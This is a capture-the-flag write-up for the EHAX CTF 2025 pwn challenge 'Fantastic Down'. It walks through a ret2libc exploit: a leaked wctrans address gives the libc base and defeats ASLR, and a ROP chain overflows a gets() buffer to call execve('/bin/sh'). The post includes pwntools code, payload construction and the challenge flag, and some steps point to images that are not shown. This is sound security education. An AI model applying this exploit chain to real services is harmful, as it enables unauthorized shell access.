






## EHAX CTF 2025 Fantastic Down

## Introduction to the Challenge

This challenge consisted of a simple ret2libc, where we had to exploit a vulnerability in the provided binary to obtain a remote shell. The binary was accompanied by its libc and dynamic loader (ld).

```console
$ ls
chall   ld-2.27.so   libc-2.27.so
```

## Step 1: Configuration with pwninit

Before starting the exploitation, it was crucial to properly prepare the environment. For this, we used ```pwninit```, a configuration tool that allows setting the correct addresses and offsets for the libc and dynamic loader (ld). Without this step, the addresses of the libc and ld would not be correctly mapped, making remote exploitation impossible.

Here's the command to execute to configure the environment with pwninit:



Once the environment was configured, we could move on to the exploitation.

## Step 2: Launching the Binary

When launching the binary, we get the following output:



What seems to be a series of hexadecimal values ​​​​of little interest, except for one address in particular which caught my attention: `0x7f3b6d3255e0`.

Indeed, this address corresponds to a libc leak, and from this information, we will be able to calculate the libc base and deduce interesting addresses like those of `execve` and other gadgets necessary for exploitation.

### Step 3: Address Identification

So we disassembled the code to understand where this address came from. By analyzing the assembly, we can able to identify that this address corresponds to the [wctrans](https://en.cppreference.com/w/c/string/wide/wctrans) function of libc.

Here is the disassembly of the code where we find the corresponding address:



You can also check this address with GDB:





### Step 4: Retrieve the Address

Once we confirmed that it was indeed the `wctrans` function, we wrote a Python script to extract this address. Here is the code used to retrieve the address of the leak:

```python
def exploit(r):
    output = r.recvuntil(b"Enter authcode:").decode()
    log.info(f"Output:\n{output}")

    match = re.search(r"(0x7[0-9a-f]{11})", output)
    if not match:
        log.error("Error no leak")
        r.close()
        exit(1)

    leaked_libc_addr = int(match.group(1), 16)
    log.success(f"leak libc address : {hex(leaked_libc_addr)}")


def main():
    r = conn()
    exploit(r)
    r.interactive()
```
output :

```console
[...SNIP...]
4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4D0x444F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4F4D
    Enter authcode:
[+] leak libc address : 0x7a86bc83c5e
[*] Switching to interactive mode
$
```
### Step 5: Calculation of the Libc Base

To calculate the libc base, we need to subtract the offset of the `wctrans` function (found in libc) by the leaked address. To do this, we use the following command to obtain the exact offset of `wctrans`:

```bash
└─$ readelf -s libc-2.27.so | grep "wctrans"
   130: 00000000001255e0   133 FUNC    WEAK   DEFAULT   13 wctrans@@GLIBC_2.2.5 <-- here
  1788: 0000000000125e40   117 FUNC    WEAK   DEFAULT   13 wctrans_l@@GLIBC_2.3
  2040: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS wctrans.c
  2041: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS towctrans.c
  2045: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS wctrans_l.c
  2046: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS towctrans_l.c
  3062: 0000000000125670    63 FUNC    LOCAL  DEFAULT   13 __GI___towctrans
  3993: 00000000001255e0   133 FUNC    LOCAL  DEFAULT   13 __wctrans
  5642: 0000000000125e40   117 FUNC    GLOBAL DEFAULT   13 __wctrans_l
  5732: 0000000000125e40   117 FUNC    WEAK   DEFAULT   13 wctrans_l
  6011: 0000000000125670    63 FUNC    GLOBAL DEFAULT   13 __towctrans
  6454: 0000000000125ec0    63 FUNC    GLOBAL DEFAULT   13 __towctrans_l
  7067: 0000000000125670    63 FUNC    WEAK   DEFAULT   13 towctrans
  7299: 0000000000125ec0    63 FUNC    WEAK   DEFAULT   13 towctrans_l
  7636: 00000000001255e0   133 FUNC    WEAK   DEFAULT   13 wctrans <-- here
```
The offset found is 0x1255e0. We can now calculate the base of the libc with the following code:

```python
    libc_offset_wctrans = libc.symbols["wctrans"]

    [...]

    libc_base = leaked_libc_addr - libc_offset_wctrans
    log.success(f"Libc base : {hex(libc_base)}")
```

```console
[...]
    Enter authcode:
[+] Leak libc address : 0x7a86bc83c5e
[+] Libc base : 0x7a86bb5e67e
[*] Switching to interactive mode
$
```
Great ! ASLR Bypass 😎 

### ASLR Bypass and Calculation of Useful Addresses

Now that we have the basis of libc, we can calculate the addresses of useful functions like `execve` and other ROP gadgets needed for exploitation. For example :

```python
    libc_offset_wctrans = libc.symbols["wctrans"]
    libc_execve_off = libc.symbols["execve"]

[...]

    execve_libc = libc_base + libc_execve_off
    bin_sh = libc_base + next(libc.search(b"/bin/sh\x00"))
    pop_rdx_rsi_ret = libc_base + 0x130539 # (libc)


    log.success(f"Address of execve : {hex(execve_libc)}")
    log.success(f"Address of /bin/sh : {hex(bin_sh)}")
    log.success(f"Gadget address pop rdx; pop rsi; ret : {hex(pop_rdx_rsi_ret)}")
```
Which gives:

```console
[+] leak libc adress : 0x7a86bc83c5e
[+] Libc base : 0x7a86bb5e67e
[+] Address of execve : 0x7a86bc4315e
[+] Address of /bin/sh : 0x7a86bd12406
[+] Address gadget pop rdx; pop rsi; ret : 0x7a86bc8ebb7
[*] Switching to interactive mode
$
```
### Step 6: Creating the ROP Channel

We know that the `Enter authcode:` entry is vulnerable to a **buffer overflow** due to the use of the `gets()` function, which allows us to overwrite the `RIP` register after 168 bytes. It is therefore necessary to construct an ROP chain using the gadgets and the addresses previously calculated.

Here is the ROPchain:

```python
    #gadget in binary 
    pop_rdi_ret = 0x0000000000400973 
    ret_gadget = 0x40061e 


    payload = b"A" * 168
    payload += p64(ret_gadget)
    payload += p64(pop_rdi_ret)
    payload += p64(bin_sh)
    payload += p64(pop_rdx_rsi_ret)
    payload += p64(0)  # RDX = NULL
    payload += p64(0)  # RSI = NULL
    payload += p64(execve_libc)
```
This payload triggers the call to the function [`execve`](https://man7.org/linux/man-pages/man2/execve.2.html) with the argument `/bin/sh`, which gives us a shell. 

The call to `execve` is done as follows:

```bash
execve("/bin/sh", NULL, NULL)
```



flag : 

```
EH4X{st4n_l33_c4m30_m1ss1ng_dOOoOoOoOoOOm}
```

Conclusion :

This challenge was an introduction to the [ret2libc](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjQr7rDsciLAxVvKvsDHQS1CnAQFnoECAkQAQ&url=https%3A%2F%2Fbeta.hackndo.com%2Fretour-a-la-libc%2F&usg=AOvVaw3Pn0sCU4kl1l7hVaffDd-i&opi=89978449) technique and the dangers present in a vulnerable program that leaks a libc address.

This article is also the first of two pwn challenges included in the EHAX 2025 CTF. I plan to complete the second one soon, so stay tuned! If you have any questions, feel free to message me on Discord: zeletix.